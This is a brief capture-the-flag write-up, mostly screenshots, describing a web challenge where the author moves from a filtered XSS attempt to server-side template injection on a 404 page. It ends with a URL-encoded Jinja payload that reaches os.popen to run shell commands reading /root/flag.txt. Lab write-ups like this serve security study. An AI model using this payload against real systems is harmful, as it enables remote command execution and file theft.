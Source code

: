 ![image](https://github.com/nhattanhh/CTF/assets/130430279/1add84b0-1365-41e1-9db1-02bce8f0aeeb)

- Look at the title, we will immediately think of problems when the website has a 404 error.

- So let make it.

![image](https://github.com/nhattanhh/CTF/assets/130430279/193664da-3686-4976-b994-ca5c1b3dff57)

![image](https://github.com/nhattanhh/CTF/assets/130430279/5e660d3f-1f56-4968-91eb-69caab92469a)

- I will change to another url and see what we got here.

![image](https://github.com/nhattanhh/CTF/assets/130430279/94cbcee7-138f-456e-9f2f-729edfcac77f)

- Ok! This line has changed, i try to XSS but it has filter.

![image](https://github.com/nhattanhh/CTF/assets/130430279/94e5a4b9-7199-419a-8eef-a79e9af6da00)

- Try another and i see that i can use SSTI.

![image](https://github.com/nhattanhh/CTF/assets/130430279/51420a89-50c3-43e4-83b8-366c31ab4ee6)

- So use this payload to get the flag, flag will be hidden in %/root/flag.txt%

- //%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cd%20..;cd%20root;cat%20flag.txt").read()%20%7D%7D//

![image](https://github.com/nhattanhh/CTF/assets/130430279/0bec9bd2-1c5b-437c-8ebc-2ea1cdf3c4d5)
